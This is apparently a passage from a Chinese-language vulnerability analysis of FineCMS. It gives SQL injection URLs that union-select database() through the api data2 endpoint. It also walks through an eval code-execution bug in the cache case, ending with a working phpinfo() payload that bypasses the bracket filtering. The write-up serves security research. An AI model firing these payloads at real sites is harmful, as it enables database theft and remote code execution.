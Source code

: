           `http://127.0.0.1/index.php?c=api&m=data2&auth=74a0c18637d1c7585a37b331c78d71a8&param=action=form%20form=1%20field=1%0Aunion%0Aselect%0Adatabase()%23`(form模块)
          `http://127.0.0.1/index.php?c=api&m=data2&auth=74a0c18637d1c7585a37b331c78d71a8&param=action=memeber%20field=1%0Aunion%0Aselect%0Adatabase()%23`（member模块）
          `http://127.0.0.1/index.php?c=api&m=data2&auth=74a0c18637d1c7585a37b331c78d71a8&param=action=module%20%20module=news%20field=1%0Aunion%0Aselect%0Adatabase()%23`（module模块）

## eval导致恶意代码执行
- 危害：可以执行任意php代码，从而会泄露敏感信息，getshell等
- 简介：在*cache*的case中，由于使用了eval函数从而可以使精心构造的参数绕过过滤，插入到函数中使代码执行
- 详情：
    - 漏洞位置：![eval_cache](C:/张效林/一些资料/php框架/CI/FC_EVAL_CACHE.png)
    - 分析：
        - 首先我们看上面这个cache-case，在将外部传入的name参数进行处理提取之后变成了`$_name&$_param`两个参数，然而这两个参数后来分别以各自的形式都参与到了eval函数的使用中，即这里的eval函数还是调用了外部分变量，虽然经过一些手动和函数的处理，但是也是存在被绕过的可能性的。然后我们追踪到处理$_name函数的_cache_var函数中去。
        - _cache_var函数 ![eval_cache_var](C:/张效林/一些资料/php框架/CI/FC_EVAL_CACHE.png)
         这个函数我们可以看到里面并没有进行任何实质性的过滤，只是做了一个选择的功能，然后将参数返回，因此这部分我们不用考虑绕过，直接按照这函数里的case构造即可。
        - _get_var ![eval_get_var](C:/张效林/一些资料/php框架/CI/FC_EVAL_GETVAR.png)
         这个函数是将param参数进行处理然后插入eval的部分，我们追踪进去看到这个函数对传进来的param参数先进行分割，然后用三个if-else进行判断过滤，foreach函数里进行循环，我们看到在进行处理的变量前后都加上了中括号，然后再进行正则的替换，转义之类的操作。因为我们的目的是要让插入的代码执行，而前后两端加上中括号之后显然是会失效的，因此我们要在构造好的$_param函数前后手动构造上中括号的各半部分，这样一来就可以将过滤的中括号闭合，使我们真正有用的代码逃逸出来。
         - 综合上面分析，我们的payload分为两部分，第一部分就是普通的case参数，比如MEMBER，第二部分就是前后各有半个中括号，中间是真正php代码，这两部分用`.`相连，这样一来我们就可以成功利用第一部分通过判断，利用第二部分及其绕过方式插入eval函数。
    - 结果：![eval_res](C:/张效林/一些资料/php框架/CI/FC_EVAL_GETVAR.png)
    - payload:`http://127.0.0.1/index.php?c=api&m=data2&auth=74a0c18637d1c7585a37b331c78d71a8&param=action=cache%20name=MEMBER.1'];phpinfo();['1`
    - 一些说明：这个漏洞的利用方式比较有趣，因为缺陷函数里的eval部分并不是直接将外部变量加入，而是分割之后再进行，因此我们就需要构造一种两个部分的payload，分为正常部分和插入部分，这样的构造思路有需要参考到一些finecms的底层函数，像上面的闭合中括号的操作与这里的eval执行代码结合起来就比较新颖。而且这个漏洞的原理并不是特别复杂，利用方式比较有趣而且很直观。